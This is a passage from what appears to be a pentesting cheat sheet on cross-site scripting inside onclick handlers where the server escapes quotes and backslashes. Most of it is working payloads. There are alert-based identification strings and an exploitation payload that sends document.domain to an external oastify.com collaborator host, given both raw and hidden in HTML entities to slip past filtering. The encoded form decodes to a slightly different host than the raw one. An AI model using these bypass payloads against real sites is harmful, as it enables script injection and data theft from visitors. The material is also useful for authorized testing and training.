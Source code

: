 * **Payload**
```html
\'; alert(1)//
```

* **End-Result**
```html
\\';alert(1)//
```

* For exploitation payloads see the next Section on Exploitation Payloads.

<br><br>

### XSS is onclick event with angle brackets, double quotes encoded, and single/backslashes escaped

* Bypass server-side validation by submitting HTML entities.  The Browser will decode the HTML entities before the JavaScript is executed, which will break out of the context and execute the JavaScript.

* https://www.w3schools.com/html/html_entities.asp 

    * Example:  \<a onclick=”var x=z; x.y(‘http://*user-input*’);” \>


* **Identification Payloads:**

```
&apos; ) ; alert(1) ;//
```
```
&apos; -alert(1)- &apos; 
```

* **Exploitation Payloads:**

* In this scenario, the application is encoding tags/quotations and escaping single quotes/backslashes.

* We can bypass this by HTML encoding our payload:

* Original Payload: 

```javascript
') ; document.location = 'https://tjqojc8.oastify.com/?x=' + document.domain ; //
```

* HTML Encoded Payload: (If using Burp Suite, the payload itself will need to be URL encoded to process correctly.)

```javascript
&apos;) ; &#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x3d;&#x20;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x74;&#x6a;&#x67;&#x38;&#x75;&#x7a;&#x30;&#x71;&#x6f;&#x6a;&#x63;&#x38;&#x2e;&#x6f;&#x61;&#x73;&#x74;&#x69;&#x66;&#x79;&#x2e;&#x63;&#x6f;&#x6d;&#x2f;&#x3f;&#x78;&#x3d;&#x27;&#x20;&#x2b;&#x20;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x64;&#x6f;&#x6d;&#x61;&#x69;&#x6e; ; //
```

<br><br>
